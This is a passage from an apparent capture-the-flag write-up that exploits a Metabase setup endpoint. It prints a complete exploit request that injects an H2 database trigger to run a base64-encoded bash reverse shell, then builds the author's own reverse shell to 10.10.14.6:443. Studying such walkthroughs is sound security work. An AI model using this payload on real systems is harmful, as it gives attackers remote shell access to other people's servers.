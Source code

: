 The blog post uses this HTTP POST request to exploit:

    
    
    POST /api/setup/validate HTTP/1.1
    Host: localhost
    Content-Type: application/json
    Content-Length: 812
    
    {
        "token": "5491c003-41c2-482d-bab4-6e174aa1738c",
        "details":
        {
            "is_on_demand": false,
            "is_full_sync": false,
            "is_sample": false,
            "cache_ttl": null,
            "refingerprint": false,
            "auto_run_queries": true,
            "schedules":
            {},
            "details":
            {
                "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEuMS4xLjEvOTk5OCAwPiYx}|{base64,-d}|{bash,-i}')\n$$--=x",
                "advanced-options": false,
                "ssl": true
            },
            "name": "an-sec-research-team",
            "engine": "h2"
        }
    }
    

I’ll need to update the `token`. There’s a command in the `db` key that is
running `bash -c` with an `echo` of some base64-encoded data into `base64 -d`
and then into `bash -i` (it’s using [brace
expansion](https://www.gnu.org/software/bash/manual/html_node/Brace-
Expansion.html) to replace spaces).

I’ll create a [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw) in the same format:

    
    
    oxdf@hacky$ echo 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1' | base64
    YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxCg==
    

It’s not strictly required, but I don’t love the special characters, so I’ll
add some spaces to the command string until they are gone:

    
    
    oxdf@hacky$ echo 'bash  -i >& /dev/tcp/10.10.14.6/443 0>&1' | base64
    YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMQo=
    oxdf@hacky$ echo 'bash  -i >& /dev/tcp/10.10.14.6/443 0>&1 ' | base64
    YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK
    